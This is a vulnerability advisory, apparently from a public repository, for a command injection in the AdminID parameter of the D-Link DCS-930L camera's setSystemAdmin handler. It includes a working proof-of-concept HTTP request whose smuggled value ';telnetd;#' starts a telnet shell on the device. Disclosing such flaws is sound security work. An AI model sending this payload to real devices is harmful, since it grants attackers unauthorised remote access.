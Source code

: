**Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  v1.15.04

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v1.15.04. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests.


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
Just set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
